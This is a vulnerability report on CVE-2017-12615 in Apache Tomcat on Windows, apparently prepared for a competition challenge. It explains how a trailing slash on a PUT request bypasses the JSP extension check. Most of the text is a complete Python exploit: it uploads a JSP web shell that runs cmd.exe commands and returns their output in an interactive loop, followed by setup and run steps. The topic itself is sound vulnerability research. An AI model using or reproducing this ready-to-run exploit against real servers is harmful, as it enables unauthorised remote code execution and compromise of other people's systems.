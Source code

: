 <div align="center"><h1>CVE-2017-12615 REPORT</h1></div>

## About the vulnerability

When running Apache Tomcat on Windows with HTTP PUTs enabled (e.g. via setting the readonly initialisation parameter of the Default to false) it was possible to upload a JSP file to the server via a specially crafted request. This JSP could then be requested and any code it contained would be executed by the server.

**On versions:** Apache Tomcat 7.0.0 to 7.0.69

**Pre-requisites:** set readonly init parameter of Default to false i.e enable HTTP PUTs.

## Explanation

Apache Tomcat should not allow upload of file files .jsp extension variants.

`PUT /evil.jsp` should give an error.

But the extension check is bypassed when a '/' is added to the end of the url.

`PUT /evil.jsp/` triggers the vulnerability.

This happens because `file()` method in `VirtualDirContext.java` does not validate the extension correctly on appending '/' to the url.

Passing any jsp code by HTTP PUTs request to the Tomcat Server, on triggering the vulnerability, would lead to RCE on the server.

## Exploit

```
#!/usr/bin/python
import requests

targetURL = input('target url\n') #Url of the the Apache Tomcat Server

def cmdshell():
    command = input('$> ') #command to run at the target
    endpoint = 'http://' + targetURL + '/payload.jsp'
    payload = '''
    <%@ page import="java.util.*,java.io.*"%>
    <%
    String cmd = "''' + command + '''";
    Process p;
    p = Runtime.getRuntime().exec("cmd.exe /C " + cmd);
    OutputStream os = p.getOutputStream();
    InputStream in = p.getInputStream();
    DataInputStream dis = new DataInputStream(in);
    String disr = dis.readLine();
    while ( disr != null ) {
        out.println(disr);
        disr = dis.readLine();
    }
    %>
    ''' #Payload for RCE in .JSP format
    r = requests.put(endpoint+'/', data=payload) #Sending PUTs request with payload
    r = requests.get(endpoint) #For seeing the output of RCE
    print(r.content.decode("utf-8")) #decode response with UTF-8

while True:
    cmdshell()

```
[Exploit on github](https://github.com/Milind712000/INTERIIT21_SAPTANG/blob/main/chall2/exploit_CVE-2017-12615.py)

This exploit was tested on Apache Tomcat 7.0.69 and allows RCE on the Apache Tomcat Server.

### How to Run

#### Installing a python virtual environment
```bash
$ python3 -m venv env

$ source env/bin/activate
```
#### Adding the python dependencies

```bash
$ pip3 install requests
```

#### Running the exploit
```bash
$ python3 exploit_CVE-2017-12615.py
```


## Proof of Concept

[PoC video](https://www.youtube.com/watch?v=uAx89r8cYFU)
